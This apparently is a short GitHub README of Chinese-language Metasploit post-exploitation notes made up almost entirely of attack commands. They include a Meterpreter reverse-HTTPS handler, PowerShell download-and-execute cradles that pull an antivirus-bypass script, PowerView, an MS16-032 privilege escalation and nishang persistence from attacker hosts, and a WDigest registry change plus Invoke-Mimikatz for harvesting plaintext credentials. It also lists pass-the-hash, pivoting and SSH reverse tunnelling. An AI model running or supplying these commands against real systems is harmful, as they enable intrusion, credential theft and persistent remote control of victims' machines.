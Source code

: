 # Metasploit-Study
心得

1、启动console
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set lhost 121.xx.xx.43;set lport 5555;exploit -j"


2、过杀软
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/https.ps1')


3、域探测
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/PowerView.ps1');Invoke-UserHunter"


4、提权
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.3.101/doc/16-032.ps1');Invoke-MS16-032 -Application C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -Commandline ' -nop -exec bypass .\1.ps1'"


5、下载文件
powershell (new-object System.Net.WebClient).DownloadFile('http:/http://121.43.xx.xx:8888/wce.exe,‘wce.exe')


6、抓明文（windows 2008 R2 后需修改注册表项 use post/windows/manage/wdigest_caching）或者 reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

7、mimikatz
powershell.exe  -nop -exec bypass  -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz"
或者
meterpreter load mimikatz

8、hash传递登录
 use exploit/windows/smb/psexec_psh
 
 
9、添加路由
post/multi/manage/autoroute


10、proxychains socks 代理
use auxiliary/server/socks4a


11、持久化nishang
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://121.43.xx.xx:8888/Add-Persistence.ps1');Add-Persistence -PayloadURL http://121.xx.xx.43:8888/https5555.ps1"

12、通过VPS SSH隧道使用本地msf

ssh -qTfnN -R 5555:192.168.2.100:5555 root@121.xx.xx.43
远程vps 需开启：
vi /etc/ssh/sshd_config
gatewayports yes
